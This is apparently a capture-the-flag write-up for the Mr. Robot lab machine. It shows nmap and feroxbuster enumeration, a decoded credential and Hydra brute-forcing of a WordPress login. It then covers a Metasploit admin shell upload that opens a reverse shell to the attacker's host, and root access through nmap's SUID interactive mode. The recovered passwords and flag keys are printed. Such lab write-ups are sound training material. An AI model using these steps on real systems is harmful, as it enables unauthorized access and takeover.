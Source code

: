 url=192.168.1.1
# Enumeration

## Port scan
```sh
nmap -p- $url
```

Output:
```text
Nmap scan report for 192.168.1.1
Host is up (0.043s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http
```

## Web Enumeration
```sh
feroxbuster -u http://$url:80 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -An
```

```text
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.1.1:80
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ Random
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🚫  Do Not Recurse        │ true
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       24w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET      137l      464w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        0l        0w        0c http://192.168.1.1/sitemap
200      GET        1l      155w     8638c http://192.168.1.1/css/A.main-600a9791.css.pagespeed.cf.u3LLEOFQmH.css
200      GET       30l       98w     1188c http://192.168.1.1/index.html
301      GET        7l       20w      234c http://192.168.1.1/images => http://192.168.1.1/images/
301      GET        7l       20w      232c http://192.168.1.1/blog => http://192.168.1.1/blog/
200      GET       61l      849w    50555c http://192.168.1.1/js/s_code.js.pagespeed.jm.I78cfHQpbQ.js
301      GET        0l        0w        0c http://192.168.1.1/rss => http://192.168.1.1/feed/
302      GET        0l        0w        0c http://192.168.1.1/login => http://192.168.1.1/wp-login.php
200      GET        1l     2254w   182004c http://192.168.1.1/js/vendor/vendor-48ca455c.js.pagespeed.jm.V7Qfw6bd5C.js
200      GET      820l     6033w   239300c http://192.168.1.1/js/main-acba06a5.js.pagespeed.jm.YdSb2z1rih.js
200      GET       30l       98w     1188c http://192.168.1.1/
301      GET        7l       20w      233c http://192.168.1.1/video => http://192.168.1.1/video/
301      GET        0l        0w        0c http://192.168.1.1/0 => http://192.168.1.1/0/
301      GET        0l        0w        0c http://192.168.1.1/feed => http://192.168.1.1/feed/
301      GET        0l        0w        0c http://192.168.1.1/image => http://192.168.1.1/image/
301      GET        0l        0w        0c http://192.168.1.1/atom => http://192.168.1.1/feed/atom/
301      GET        7l       20w      238c http://192.168.1.1/wp-content => http://192.168.1.1/wp-content/
301      GET        7l       20w      233c http://192.168.1.1/admin => http://192.168.1.1/admin/
301      GET        7l       20w      233c http://192.168.1.1/audio => http://192.168.1.1/audio/
200      GET     2028l    11941w   936742c http://192.168.1.1/intro
200      GET        1l      248w     6048c http://192.168.1.1/wp-includes/css/buttons.min.css,qver=4.3.1.pagespeed.ce.ZQERzcrubG.css
301      GET        7l       20w      231c http://192.168.1.1/css => http://192.168.1.1/css/
200      GET        1l      688w    24200c http://192.168.1.1/wp-admin/css/login.min.css
200      GET        1l       10w    46120c http://192.168.1.1/wp-includes/css/dashicons.min.css,qver=4.3.1.pagespeed.ce.5l-W1PUiez.css
200      GET       53l      158w     2657c http://192.168.1.1/wp-login.php
302      GET        0l        0w        0c http://192.168.1.1/wp-admin/ => http://192.168.1.1/wp-login.php?redirect_to=http%3A%2F%2F192.168.1.1%2Fwp-admin%2F&reauth=1
200      GET       53l      158w     2657c http://192.168.1.1/wp-login
301      GET        0l        0w        0c http://192.168.1.1/rss2 => http://192.168.1.1/feed/
200      GET      156l       27w      309c http://192.168.1.1/license
301      GET        7l       20w      239c http://192.168.1.1/wp-includes => http://192.168.1.1/wp-includes/
301      GET        7l       20w      230c http://192.168.1.1/js => http://192.168.1.1/js/
301      GET        0l        0w        0c http://192.168.1.1/Image => http://192.168.1.1/Image/
301      GET        0l        0w        0c http://192.168.1.1/rdf => http://192.168.1.1/feed/rdf/
301      GET        0l        0w        0c http://192.168.1.1/page1 => http://192.168.1.1/
200      GET        1l       14w       64c http://192.168.1.1/readme
200      GET        3l        4w       41c http://192.168.1.1/robots
302      GET        0l        0w        0c http://192.168.1.1/dashboard => http://192.168.1.1/wp-admin/
301      GET        0l        0w        0c http://192.168.1.1/%20 => http://192.168.1.1/
404      GET        5l       15w      135c http://192.168.1.1/wp-trackback
```

### Intresting sites

$url/admin, just reloads everytime so not intresting

$url/login more intresting in next point

$url/robots
User-agent: *
fsocity.dic -> wordlist for cracking, downloaded to wordlist.txt
key-1-of-3.txt -> First key (073403c8a58a1f80d943455fb30724b9)

$url/license -> has base64 encoded a user/passwd = ZWxsaW90OkVSMjgtMDY1Mgo= -> elliot:ER28-0652



# Brute forcing

Takes pretty long, as the password is the ninth last of the fsocity.dic list.
## Username
```sh
hydra -L wordlist.txt -p dummyPassword $url http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.1.1%2Fwp-admin%2F&testcookie=1:F=Invalid username." -V
```

Username: elliot

## Password
```sh
hydra -l elliot -P wordlist.txt $url http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.1.1%2Fwp-admin%2F&testcookie=1:F=ERROR" -V
```


Passwort: ER28-0652

# Revshell

use  unix/webapp/wp_admin_shell_upload
set RHOSTS $url
set USERNAME elliot
set PASSWORD ER28-0652
set LHOST 192.168.1.158
set WPCHECK false
run

Doesn't work cause request doesn't come from `192.168.1.1`, but from `192.168.2.69`.
So this command achieves that, the traffic is routed back to 192.168.1.1:
```sh
sudo ip route add 192.168.2.69 dev eth1 via 192.168.1.1
```

then run again.
get revshell as daemon user


# Privesc
## To better user robot
cd /home/robot
read password.raw-md5
crack with [online tool](https://crackstation.net)

Password for robot user: abcdefghijklmnopqrstuvwxyz

user key: 822c73956184f694993bede3eb39f959
## To root
To find all files owned by root and which have the sbit set
```sh
find / -user root -perm /4000 2>/dev/null
```

nmap has it set

with 
```sh
nmap --interactive
nmap>!sh
```

You are root
last key:
04787ddef27c3dee1ee161b21670b4e4